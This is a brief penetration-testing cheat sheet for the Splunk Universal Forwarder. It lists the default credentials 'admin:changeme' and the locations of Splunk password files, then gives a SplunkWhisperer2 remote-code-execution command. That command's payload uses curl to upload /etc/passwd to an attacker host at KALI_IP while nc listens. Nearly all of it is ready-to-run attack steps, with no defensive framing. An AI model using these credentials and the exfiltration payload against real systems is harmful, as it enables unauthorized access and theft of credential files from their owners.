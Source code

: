 # splunk universal forwarder

## Default Creds

```
admin:changeme
```

## Interesting Paths

```bash
# common password locations
C:\Program Files\Splunk\etc\passwd

/opt/Splunk/etc/passwd
```

## SplunkWhisperer2 Local PE + RCE

```
https://github.com/cnotin/SplunkWhisperer2
# start nc on KALI_PORT
python PySplunkWhisperer2_remote.py --scheme https --username USER --password PASS --host IP --lhost KALI_IP --payload "curl -F 'data=@/etc/passwd' http://KALI_IP:KALI_PORT}}"
```
